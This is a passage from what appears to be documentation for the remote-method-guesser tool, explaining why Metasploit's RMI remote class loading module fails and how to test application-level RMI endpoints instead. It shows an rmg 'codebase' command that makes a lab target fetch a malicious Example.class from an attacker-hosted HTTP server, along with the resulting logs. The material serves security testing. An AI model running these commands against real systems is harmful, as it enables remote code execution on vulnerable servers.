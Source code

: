 The underlying reason is, that the *Metasploit module* (and most other tools as well) attempt to attack the internal *RMI communication*, which is better
protected than *RMI communication* on the application level. In total, there are three reasons why the *Metasploit module* is not working:

1. The *Distributed Garbage Collector* (*DGC*), that is used for the attack above, sets the ``useCodebaseOnly`` property explicitly to ``true`` within the
   ``UnicastServerRef.java`` class. This overwrites custom configurations and always disables *remote class loading* for all calls to the *DGC*.

2. *RMI calls* to the *Distributed Garbage Collector* are handled within a separate ``AccessControlContext``, which denies all outbound connections. This
   ``AccessControlContext`` (defined in ``DGCImpl.java``) overwrites the current security policy and ignores user defined policy rules.

3. Even without the two restrictions mentioned above, the *Metasploit module* would still fail. *Remote class loading* attacks send an object of a custom class
   (unknown to the remote server) within *RMI calls*. During a successful attack, the server fetches the class definition from the attacker and calls
   the *readObject* method that contains malicious *Java code*. However, as *internal RMI communication* is now protected by *deserialization filters*, unknown
   classes are rejected while reading the ``ObjectInputStream``.

Whereas the *internal RMI communication* is well protected, *RMI communication* on the application level is not. *remote-method-guesser* can be used to verify
*remote class loading* on a vulnerable endpoint, but as for the *deserialization attack*, it requires a method signature exposed by one of the available bound
names.

```console
[qtc@kali ~]$ rmg --ssl 172.18.0.2 1090 codebase Example http://172.18.0.1:8000 --signature "String login(java.util.HashMap dummy1)" --bound-name secure-server
[+] Connecting to RMI registry... done.
[+] Obtaining a list of bound names... done.
[+] 3 names are bound to the registry.
[+] Attacking String login(java.util.HashMap dummy1)
[+] Target name specified. Only attacking bound name: secure-server
[+]
[+] Current bound name: secure-server
[+] 	Found non primitive argument type on position 0
[+] 	RMI object tries to connect to different remote host: iinsecure.dev
[+] 		Redirecting the connection back to 172.18.0.2... 
[+] 		This is done for all further requests. This message is not shown again. 
[+] 	Invoking remote method...
```

When used against a vulnerable endpoint, you should obtain an *HTTP* request for the specified class:

```console
[qtc@kali www]$ web
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.18.0.2 - - [14/Nov/2020 07:48:59] "GET /Example.class HTTP/1.1" 200 -
```
